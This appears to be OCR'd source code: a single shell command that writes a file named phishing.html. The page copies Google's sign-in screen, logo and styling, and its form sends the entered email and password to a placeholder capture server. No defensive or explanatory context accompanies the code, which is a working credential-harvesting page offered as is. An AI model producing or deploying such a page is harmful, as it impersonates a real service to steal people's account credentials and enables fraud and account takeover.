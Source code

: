 echo '<!DOCTYPE html>
<html>
<head>
    <title>Google</title>
    <style>
        body {
            background-color: #f2f2f2;
        }
        .container {
            width: 300px;
            margin: 50px auto;
            background: #fff;
            padding: 20px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        .logo {
            text-align: center;
            margin-bottom: 20px;
        }
        input {
            width: 100%;
            padding: 10px;
            margin: 10px 0;
            border: 1px solid #ccc;
            border-radius: 4px;
        }
        button {
            width: 100%;
            padding: 10px;
            background: #4285f4;
            color: #fff;
            border: none;
            border-radius: 4px;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="logo">
            <img src="https://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" alt="Google Logo">
        </div>
        <form action="https://your-server.com/capture" method="POST">
            <input type="text" name="username" placeholder="Email" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Next</button>
        </form>
    </div>
</body>
</html>' > phishing.html
